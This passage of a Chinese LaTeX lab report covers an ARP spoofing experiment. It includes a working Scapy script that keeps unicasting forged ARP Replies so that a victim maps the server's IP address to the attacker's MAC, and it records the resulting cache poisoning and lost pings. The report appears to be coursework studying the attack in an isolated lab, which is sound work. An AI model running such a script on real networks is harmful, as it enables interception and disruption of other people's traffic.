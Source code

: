 ARP Reply 方式不依赖 Victim 是否刚好发出 ARP Request，而是由 Attacker 持续向 Victim 单播发送伪造的 ARP Reply。报文以 Victim 的 MAC 为以太网目的地址，ARP 操作码为 Reply（\texttt{op=2}），协议源地址伪装为 Server 的 \texttt{192.168.3.200}，硬件源地址使用 Attacker 的 \texttt{00:0c:29:bf:ed:f6}。Scapy 脚本如下：

\begin{lstlisting}[language=Python,caption={ARP Reply 持续投毒脚本}]
#!/usr/bin/env python3
from scapy.all import ARP, Ether, get_if_addr, get_if_hwaddr, sendp

iface = "ens33"
attacker_ip = get_if_addr(iface)
attacker_mac = get_if_hwaddr(iface)
if attacker_ip != "192.168.3.129":
    raise SystemExit(f"unexpected address on {iface}: {attacker_ip}")

victim_ip = "192.168.3.10"
victim_mac = "00:0c:29:2c:12:a8"
server_ip = "192.168.3.200"

reply = (
    Ether(src=attacker_mac, dst=victim_mac) /
    ARP(op=2, hwsrc=attacker_mac, hwdst=victim_mac,
        psrc=server_ip, pdst=victim_ip)
)
reply.show()
sendp(reply, iface=iface, loop=1, inter=0.01, verbose=False)
\end{lstlisting}

脚本运行后，在 Victim 上查看邻居表。截图显示，\texttt{192.168.3.200} 的链路层地址被改写为 Attacker 的 MAC 地址 \texttt{00:0c:29:bf:ed:f6}，而不是 Server 的真实地址；Attacker 终端显示 ARP Reply 报文的源协议地址为 \texttt{192.168.3.200}、目的协议地址为 \texttt{192.168.3.10}，如图\ref{fig:task1-reply-code}和图\ref{fig:task1-reply-poison}所示。


在 Victim 上再次执行 \texttt{ping -c 4 192.168.3.200}，同时在 Attacker 上抓取来自 Victim 的 ICMP 报文。实验中一次测试出现 50\% 的丢包，随后在持续发送伪造 Reply 的情况下出现 100\% 丢包；这反映了真实 Server 的 ARP 响应与伪造响应之间存在竞争。稳定污染后，Victim 发出的 Echo Request 的 IP 目的地址仍是 \texttt{192.168.3.200}，但以太网目的 MAC 已经变为 Attacker 的 MAC。由于本小实验没有开启 Attacker 的 IP 转发，报文被 Attacker 接收后没有继续送往 Server，因此 Victim 收不到 Echo Reply。抓包结果如图\ref{fig:task1-reply-icmp}所示。


\subsubsection{实验结果}

ARP Reply 实验验证了：Attacker 可以通过持续发送单播伪造响应，直接覆盖 Victim 中 Server 的 IP--MAC 映射；与 ARP Request 方法相比，Reply 方法不需要等待 Victim 的下一次 ARP 请求，但需要持续发送以维持错误映射。两种方法在本实验中都实现了相同的二层流量转向，区别在于伪造报文的触发方式和发送对象。
